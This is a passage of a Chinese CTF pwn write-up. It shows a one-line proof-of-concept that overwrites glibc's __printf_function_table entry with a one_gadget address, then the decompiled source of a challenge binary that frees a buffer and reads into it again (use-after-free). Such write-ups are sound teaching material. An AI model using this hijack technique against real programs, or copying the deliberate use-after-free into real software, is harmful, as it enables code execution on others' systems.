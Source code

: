 因此，poc 也可以伪造 `__printf_function_table`

```c
    *(unsigned long*)(a[1] + ('X'-2)*8) = libc_base + ONE_GADGET;
```

## 例题分析

2022HWS硬件安全冬令营 X DASCTF Jan PWN 送分题（原题为第二届华为武汉研究所11·9网络安全大赛 just pwn it）

### 代码分析

ida F5 可得源码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ···
  init(argc, argv, envp);
  dest = malloc(0x1000uLL);
  memcpy(dest, "Gust", 5uLL);
  printf("Hello, %s.\n", (const char *)dest);
  buf = malloc(0x1000uLL);
  memcpy(buf, "Now you can get a big box, what size?\n", 0x27uLL);
  printf("%s", (const char *)buf);
  read(0, buf, 0x1000uLL);
  v4 = atoi((const char *)buf);
  if ( v4 <= 0xFFF || v4 > 0x5000 )
    return 0;
  ptr = malloc(v4);
  bufa = malloc(0x1000uLL);
  memcpy(bufa, "Now you can get a bigger box, what size?\n", 0x2AuLL);
  printf("%s", (const char *)bufa);
  read(0, bufa, 0x1000uLL);
  v5 = atoi((const char *)bufa);
  if ( v5 <= 0x4FFF || v5 > 0xA000 )
    return 0;
  v13 = malloc(v5);
  bufb = malloc(0x1000uLL);
  memcpy(bufb, "Do you want to rename?(y/n)\n", 0x1DuLL);
  printf("%s", bufb);
  read(0, bufb, 0x1000uLL);
  if ( *bufb == 'y' )
  {
    free(dest);
    printf("Now your name is:%s, please input your new name!\n", (const char *)dest);
    read(0, dest, 0x1000uLL);
  }
  bufc = malloc(0x1000uLL);
  memcpy(bufc, "Do you want to edit big box or bigger box?(1:big/2:bigger)\n", 0x3CuLL);
  printf("%s", (const char *)bufc);
  read(0, bufc, 0x1000uLL);
  v6 = atoi((const char *)bufc);
  printf("Let's edit, %s:\n", (const char *)dest);
  if ( v6 == 1 )
    read(0, ptr, 0x1000uLL);
  else
    read(0, v13, 0x1000uLL);
  free(ptr);
  free(v13);
  printf("bye! %s", (const char *)dest);
  return 0;
}
```
